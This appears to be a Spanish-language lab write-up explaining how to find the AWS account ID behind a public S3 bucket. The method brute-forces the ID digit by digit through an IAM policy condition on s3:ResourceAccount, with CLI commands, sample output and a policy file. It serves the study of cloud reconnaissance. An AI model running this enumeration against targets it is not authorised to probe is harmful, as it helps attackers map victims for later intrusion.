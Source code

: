 # Técnica de Enumeración para Obtener el ID de Cuenta AWS de un Bucket S3 Público

## Requisitos previos:
- Una cuenta AWS propia para realizar la enumeración
- Un bucket S3 de lectura pública en la cuenta objetivo

## Pasos:

1. **Identificar un bucket S3 público objetivo**
   - Localizar un bucket u objeto S3 de lectura pública perteneciente a la cuenta objetivo
   ```bash
   curl -s www.offseclab.io | grep -o -P 'offseclab-assets-public-\w{8}'
   ```
   - Verificar que es accesible públicamente mediante `aws s3 ls [nombre-bucket]`

2. **Crear un usuario IAM en tu cuenta de atacante**
   - Ejecutar `aws --profile attacker iam create-user --user-name enum`
     ```bash
          {
	    "User": {
	        "Path": "/",
	        "UserName": "enum",
	        "UserId": "AIDAZMM7SQGHZ4LACSS4J",
	        "Arn": "arn:aws:iam::645116625295:user/enum",
	        "CreateDate": "2025-05-06T18:08:52+00:00"
	      }
           }

     ```
   - Crear credenciales de acceso con `aws --profile attacker iam create-access-key --user-name enum`
   - Configurar un perfil en AWS CLI para este usuario: `aws configure --profile enum`

3. **Crear una política IAM con condición de ID de cuenta**
   - Crear un archivo JSON (policy-s3-read.json) que:
     - Permita acciones `s3:ListBucket` y `s3:GetObject`
     - Incluya una condición `StringLike` en `s3:ResourceAccount` que limite el acceso
     - Inicialmente usar `"StringLike": {"s3:ResourceAccount": ["0*"]}`
   ```bash
     1  {
     2      "Version": "2012-10-17",
     3      "Statement": [
     4          {
     5              "Sid": "AllowResourceAccount",
     6              "Effect": "Allow",
     7              "Action": [
     8                  "s3:ListBucket",
     9                  "s3:GetObject"
    10              ],
    11              "Resource": "*",
    12              "Condition": {
    13                  "StringLike": {"s3:ResourceAccount": ["1*"]}
    14              }
    15          }
    16      ]
    17  }
	
   ```

4. **Aplicar la política al usuario IAM**
   - Ejecutar `aws --profile attacker iam put-user-policy --user-name enum --policy-name s3-read --policy-document file://policy-s3-read.json`

5. **Probar el acceso al bucket utilizando cada dígito posible**
   - Intentar listar el bucket: `aws --profile enum s3 ls [nombre-bucket]`
   - Si obtienes "Access Denied", modificar la política probando con otro dígito inicial ("1*", "2*", etc.)
   - Volver a aplicar la política y probar nuevamente

6. **Identificar el primer dígito y continuar con los siguientes**
   - Una vez que obtengas acceso exitoso, habrás identificado el primer dígito
   - Repetir el proceso con el segundo dígito (ej: "10*", "11*", "12*", etc.)
   - Continuar con cada posición hasta obtener el ID completo (12 dígitos)

## Observaciones importantes:
- Las políticas pueden tardar 10-15 segundos en activarse después de aplicarse
- Esta técnica aprovecha las condiciones en políticas IAM para filtrar por ID de cuenta
- El proceso puede automatizarse con scripts o herramientas como s3-account-search
- Aunque se usa con S3 por su frecuente exposición pública, el concepto podría aplicarse a otros servicios AWS

